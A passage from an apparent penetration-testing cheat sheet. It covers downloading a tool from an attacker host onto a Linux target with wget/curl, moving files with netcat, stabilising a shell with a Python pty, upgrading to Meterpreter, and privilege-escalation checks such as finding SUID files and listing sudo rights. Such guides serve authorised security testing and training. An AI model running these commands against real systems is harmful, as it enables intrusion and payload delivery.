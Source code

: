 ### Pull to Linux (target)

```bash
# wget / curl
wget http://<attacker-ip>:8000/tool -O /tmp/tool && chmod +x /tmp/tool
curl -o /tmp/tool http://<attacker-ip>:8000/tool && chmod +x /tmp/tool
# netcat push (attacker->target)
# On attacker: nc -nvlp 9000 < file
# On target: nc <attacker-ip> 9000 > file
```

**Tip:** keep predictable directories and use short, documented commands. Always checksum/download verification if possible.

---

## 3) Upgrading shells & making them stable

### Spawn pseudo-tty on Linux

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Or
python -c 'import pty; pty.spawn("/bin/bash")'
# Then in your local terminal: ctrl-z, stty raw -echo; fg
```

### Meterpreter: upgrade shell

* If you have a basic shell, upload a staged Meterpreter payload (msfvenom) and execute, or use `sessions -u` in Meterpreter to try upgrade.

---

## 4) Privilege escalation (approach + quick checks)

### Approach

1. Enumerate kernel & OS version, installed packages, SUID binaries, sudo rights, running services, creds on disk/config files.
2. Match findings to known local exploits or misconfigurations (e.g., weak `sudo` config, SUID misuses, writable system files, vulnerable kernel).
3. Test safe, non-destructive PoCs in a lab that mirror target.

### Quick Linux checks

```bash
uname -a
cat /etc/os-release
sudo -l
getcap -r / 2>/dev/null        # capabilities
find / -perm -4000 -type f 2>/dev/null   # SUID files
ps aux --sort=-%mem | head
```
